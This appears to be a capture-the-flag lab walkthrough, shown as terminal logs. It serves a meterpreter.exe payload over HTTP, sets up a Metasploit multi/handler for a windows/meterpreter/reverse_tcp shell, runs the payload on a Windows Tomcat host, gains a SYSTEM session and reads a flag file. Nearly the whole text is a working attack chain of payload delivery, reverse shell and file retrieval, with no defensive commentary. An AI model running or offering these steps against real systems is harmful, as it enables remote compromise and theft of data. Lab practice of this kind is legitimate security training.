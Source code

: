 ```
root@attackdefense:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.0.25.99 - - [31/Jan/2023 09:17:59] "GET /meterpreter.exe HTTP/1.1" 200 -
10.0.25.99 - - [31/Jan/2023 09:18:00] "GET /meterpreter.exe HTTP/1.1" 200 -
```

```
root@attackdefense:~# vim handler.rc
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.16.2
set LPORT 1234
run
```

```
root@attackdefense:~# msfconsole -q -r handler.rc 
[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use multi/handler
resource (handler.rc)> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource (handler.rc)> set LHOST 10.10.16.2
LHOST => 10.10.16.2
resource (handler.rc)> set LPORT 1234
LPORT => 1234
resource (handler.rc)> run
[*] Started reverse TCP handler on 10.10.16.2:1234
```

```
C:\Program Files\Apache Software Foundation\Tomcat 8.5>.\meterpreter.exe
.\meterpreter.exe
```

```
resource (handler.rc)> run
[*] Started reverse TCP handler on 10.10.16.2:1234 
[*] Sending stage (180291 bytes) to 10.0.25.99
[*] Meterpreter session 1 opened (10.10.16.2:1234 -> 10.0.25.99:49367) at 2023-01-31 09:26:12 +0530

meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > search -f flag.txt
Found 1 result...
    c:\flag.txt (32 bytes)
meterpreter > cat c:\\flag.txt
92d60a06d0ea2179c9a8c442c0bd0bc0
```